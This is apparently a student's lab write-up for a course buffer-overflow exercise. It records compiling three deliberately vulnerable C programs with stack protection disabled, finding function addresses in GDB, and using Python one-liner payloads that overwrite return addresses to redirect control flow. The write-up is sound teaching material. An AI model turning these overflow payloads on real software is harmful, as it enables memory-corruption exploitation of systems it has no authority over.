 ![{2AA5C6AD-30EF-4D1A-BCBE-E2304C6DA6EA}](https://github.com/user-attachments/assets/c217dd11-9160-42f9-8047-c786866f6ab9)Lab#1: Conduct buffer overflow attack on bof1.c, bof2.c, bof3.c programs.
![{8EF66160-18B3-4675-9D73-C58DEEAD9752}](https://github.com/user-attachments/assets/6650dca1-c40a-4c7a-80be-1249435086c3)
- started by changing directories, move into "Seclabs" folder and then the "buffer-overflow" folder
- run Docker with docker run, --privileged flag allows the container to access all devices on the host system, especially for  low-level system access may be required, -v flag mounts the local folder C:/Users/nguye/Seclabs to /home/seed/seclabs in the container, allows the container to work with my files
  ![{61924F50-5C35-4FF0-AA00-44DDCDCB0ABC}](https://github.com/user-attachments/assets/1f96198b-1e0e-4647-8394-f8213ad03374)
  ![{A4E02F71-F882-45B0-8894-57B353996921}](https://github.com/user-attachments/assets/6f939b9d-dd73-4c0b-822b-b3c3bf410ee5)
- Compile bof1.c,  warning arises because the gets() function is unsafe, it doesn't check the input size, lead to potential vulnerabilities
- Disable Stack Protection, gcc -w -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
disables the compiler's stack protection mechanisms, ensures compatibility with a 32-bit stack alignment
- Inspect secretFunc the instruction at 0x0804846b pushes the base pointer (ebp), and at 0x0804847d, it returns (ret)
- trigger the Buffer Overflow python -c "print('a'*204+'\x6b\x84\x04\x08')" generates a payload consisting of 204 'a' characters follow by the address 0x0804846b, starting address of secretFunc, format: \x6b\x84\x04\x0
- Congratulation! shows that the buffer overflow successfully altered the control flow
Segmentation fault the program attempts to continue, but the memory structure is corrupted

![{7E60E460-CF05-4A0C-9E9F-565960401398}](https://github.com/user-attachments/assets/0cc52c86-7709-4c7c-9d98-95d51d96e854)
- Compile bof2.c
- echo $(python -c "print('a'*40+'\x6b\x84\x04\x08')") | ./bof2.out 1234 creates a string of 40 'a' characters, '\x6b\x84\x04\x08' is the address of the function
- [buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaak�♦  shows the contents of the buffer, 'a' characters have filled the buffer, followed by the memory address provided
[check] 0x804846b confirms that the value in the memory location being checked is 0x0804846b  is the address of the function that i want to jump to, confirms that my buffer overflow successfully overwrote the return address or function pointer, and the program is now set to jump to 0x0804846b
You are on the right way! show that the exploit worked correctly
![{91444646-FCA6-4B5F-8872-F882FDF40FDF}](https://github.com/user-attachments/assets/52b85d3f-5f83-4270-ba0c-8d04e0217828)
![{2AA5C6AD-30EF-4D1A-BCBE-E2304C6DA6EA}](https://github.com/user-attachments/assets/e507e9c9-7f3b-44a6-b487-f32fbb9a6df1)
- Compile bof3.c
- Launch GDB
-  Inspect the shell(), disassembled the shell(). function appears to call puts(), which prints a string located at address 0x8048540. It ends with a ret instruction, which returns control to the address stored on the stack
-  echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out creating the Exploit Payload. creates a string of 128 'a' characters, '\x5b\x84\x04\x08' is the memory address of the shell() function (0x0804845b)
-  You made it! The shell() function is executed  the buffer overflow successfully overwrote the return address, and the program executed the shell() function as intended, puts() inside shell() was designed to print










  


   
